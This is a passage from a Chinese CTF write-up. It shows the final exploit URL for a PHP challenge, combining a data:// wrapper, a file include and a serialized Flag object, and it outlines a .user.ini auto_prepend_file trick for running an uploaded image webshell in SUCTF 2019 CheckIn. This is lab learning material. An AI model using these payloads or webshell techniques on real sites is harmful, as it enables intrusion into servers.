 ```php
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

构造终极payload(记得把`file`参数改回`useless.php`啊不然没法正常包含了)

`?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210601105104683.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
感觉世界都平静了怎么回事，页面打出来个这个，没有东西了。

`F12`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210601105147690.png)


**伪协议+反序列化，有意思**

# [SUCTF 2019]CheckIn

来到本次的最后一题√
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210601105603298.png)


文件上传题，考畸形后缀？前端校验？MIME校验？文件头校验？00截断？不晓得
来一个小马试试水
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210601105809174.png)
上传了`1.php`，发现不行，试试图片
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060110585321.png)
检测文件内容

---
这道题涉及.user.ini文件知识，粗略讲不好，待以后详细学完补充

这里的思路是引用`auto_prepend_file`来自动为每个文件添加包含文件，上传含有webshell的图片马，然后访问同目录下的`index.php`，然后再蚁剑连接

>注意这里一定要到上传目录下的index.php文件中才能连接


**终了，这一篇暂时记录到这里，开下一波**
